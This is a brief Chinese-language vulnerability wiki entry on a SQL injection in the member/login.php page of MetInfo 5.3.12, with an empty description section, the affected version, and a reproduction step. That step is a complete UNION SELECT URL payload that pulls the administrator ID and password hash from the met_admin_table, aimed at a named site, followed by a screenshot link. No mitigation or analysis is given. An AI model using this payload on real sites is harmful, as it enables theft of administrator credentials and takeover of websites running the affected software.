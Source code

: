 MetInfo 5.3.12 member/login.php sql注入漏洞
===========================================

一、漏洞简介
------------

二、漏洞影响
------------

MetInfo 5.3.12

三、复现过程
------------

    https://www.0-sec.org/member/login.php/aa'UNION%20SELECT%20(select%20concat(admin_id,0x23,admin_pass)%20from%20met_admin_table%20limit%200,1),2,3,4,5,6,1111,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29%23/aa

![1.png](/Users/aresx/Documents/VulWiki/.resource/MetInfo5.3.12member_login.phpsql注入漏洞/media/rId24.png)
